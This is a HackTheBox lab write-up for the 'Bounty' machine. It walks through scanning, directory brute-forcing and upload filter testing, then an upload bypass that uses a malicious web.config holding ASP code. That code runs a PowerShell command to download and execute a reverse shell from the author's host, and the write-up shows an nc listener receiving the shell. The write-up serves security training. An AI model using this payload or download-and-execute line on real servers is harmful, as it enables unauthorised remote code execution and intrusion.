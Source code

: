 # Bounty | HackTheBox

### 1. Scan
```bash
─[us-dedivip-1]─[10.10.14.162]─[htb-jib1337@htb-xbv7f4azqp]─[~]
└──╼ [★]$ sudo nmap -A -p- -T4 10.129.65.73
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-19 14:15 UTC
Nmap scan report for 10.129.65.73
Host is up (0.22s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Bounty
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: phone|general purpose|specialized
Running (JUST GUESSING): Microsoft Windows Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%), Microsoft Windows Vista SP2 (91%), Microsoft Windows Vista SP2, Windows 7 SP1, or Windows Server 2008 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   224.54 ms 10.10.14.1
2   224.60 ms 10.129.65.73

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 221.91 seconds
```
The machine is running an IIS web server on port 80.

### 2. Enumeration
When visiting the machine's webpage via port 80, there is a nice picture of merlin the wizard. Checking out the headers:
```bash
─[us-dedivip-1]─[10.10.14.162]─[htb-jib1337@htb-xbv7f4azqp]─[~]
└──╼ [★]$ curl --head http://10.129.65.73
HTTP/1.1 200 OK
Content-Length: 630
Content-Type: text/html
Last-Modified: Thu, 31 May 2018 03:46:26 GMT
Accept-Ranges: bytes
ETag: "20ba8ef391f8d31:0"
Server: Microsoft-IIS/7.5
X-Powered-By: ASP.NET
Date: Sat, 19 Dec 2020 14:41:02 GMT
```
The server returns the X-Powered-By header as ASP.NET.  
With this information I can dirbust the server for directories and also aspx files.
```bash
─[us-dedivip-1]─[10.10.14.162]─[htb-jib1337@htb-xbv7f4azqp]─[~]
└──╼ [★]$ gobuster dir -u http://10.129.65.73/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x aspx -t 30
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.129.65.73/
[+] Threads:        30
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     aspx
[+] Timeout:        10s
===============================================================
2020/12/19 15:03:05 Starting gobuster
===============================================================
/transfer.aspx (Status: 200)
/UploadedFiles (Status: 301)
/uploadedFiles (Status: 301)
/uploadedfiles (Status: 301)
===============================================================
2020/12/19 15:58:38 Finished
===============================================================
```
Gobuster is able to find a transfer.aspx page, as well as an /uploadedfiles directory, which is not listable. The transfer.aspx page has a file upload form. First I try to upload a html page with some test text, which fails with the error "Invalid File". I try various extensions, starting with txt, aspx, and then .jpg, which succeeds. This tells me the app isn't using file headers to validate uploads and is just fitering based on extension.  
Using burp intruder with the "raft-small-extensions-lowercase.txt" wordlist, I can test some common web extensions and see what is allowed past the filer. The following can be uploaded:
- jpg
- gif
- png
- doc
- config
- xls/xlsx
  
After doing some research into exploits leveraging these file types, a find a blog post detailing how a guy claimed a bug bounty by getting RCE with a .config file upload - https://poc-server.com/blog/2018/05/22/rce-by-uploading-a-web-config/:
  
*By uploading a web.config I was able to bypass the blacklist, which blocks files with an executable extension (such as ‘.asp’ and ‘.aspx’).
After setting execution rights to ‘.config’ and then adding asp code in the web.config I was able to execute code.*

### 3. Get a shell
The first step is to create a .config file - there is a template linked to by the article. I can modify it to run powershell, which will download and execute my reverse shell script.
```asp
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%
Set wShell1 = CreateObject("WScript.Shell")
Set cmd1 = wShell1.Exec("cmd.exe /c powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.162:8000/rev.ps1')")
%>
```
I set up my web server, and upload the file. When I browse to the file in the /uploadedfiles directory, I get a hit on my web server. Shortly after, I get a connection in my nc listener.
```bash
─[us-dedivip-1]─[10.10.14.162]─[htb-jib1337@htb-xbv7f4azqp]─[~/writeups/HackTheBox/HTB_Bounty]
└──╼ [★]$ nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.10.14.162] from (UNKNOWN) [10.129.65.73] 49158
whoami
bounty\merlin
```
